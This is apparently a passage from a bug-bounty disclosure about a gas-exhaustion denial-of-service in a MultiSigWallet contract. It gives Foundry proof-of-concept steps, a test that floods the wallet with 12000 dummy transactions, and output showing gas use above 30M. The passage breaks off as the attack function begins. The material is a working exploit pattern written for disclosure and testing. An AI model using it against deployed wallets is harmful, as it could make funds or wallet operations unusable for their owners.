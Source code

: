 ```
        for (i=from; i<to; i++)
            _transactionIds[i - from] = transactionIdsTemp[i];
    }
```
# Proof of concept
You will have to clone the immunefi poc repo and follow the steps below. I had to upgrade the MultiSigWallet code to match solc v0.8.19 compiler in order todo this PoC. Nevertheles, I also tested in Remix using the same compiler (v0.4.26, also using the original code) and the it start reverting at around 1200 txs. Once you run the test, you can see the gas used which is above 30M, which confirm the problem.

- git clone https://github.com/immunefi-team/forge-poc-templates.git
- forge init --template immunefi-team/forge-poc-templates --branch default
- Add the following code in src folder, which is the MultiSigWallet.sol contract but upgraded to compile with Solc 0.8.19.
- Replace test/PoCTest.sol with the following test.
- forge test -vv --match-test testAttack

```
Running 1 test for test/PoCTest.sol:PoCTest
[PASS] testAttack() (gas: 31621915)
Logs:

>>> Initial conditions: # transaction submitted --> 12000

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 411.76ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "@immunefi/src/PoC.sol";
import "../src/MultiSigWallet.sol";

contract PoCTest is PoC {
    MultiSigWallet public walletContract;
    address constant ownerAccount1 = 0x2385D7aB31F5a470B1723675846cb074988531da;
    address constant ownerAccount2 = 0x0000000000000000000000000000000000000001;

    function setUp() public {
        deal(ownerAccount1, 1 ether);
        deal(ownerAccount2, 1 ether);

        // Deploy attack contract
        address[] memory accounts = new address[](2);
        accounts[0] = ownerAccount1;
        accounts[1] = ownerAccount2;
        walletContract = new MultiSigWallet(accounts, 2);
        
        // add dummy txs
        bytes memory localBytes = new bytes(1);
        for (uint k=0; k<12000; k++) {
            vm.prank(ownerAccount1);
            walletContract.submitTransaction(accounts[0], 0, localBytes);
        }

        uint txcount = walletContract.transactionCount();
        console.log("\n>>> Initial conditions: # transaction submitted -->", txcount);
    }

    function testAttack() public {
```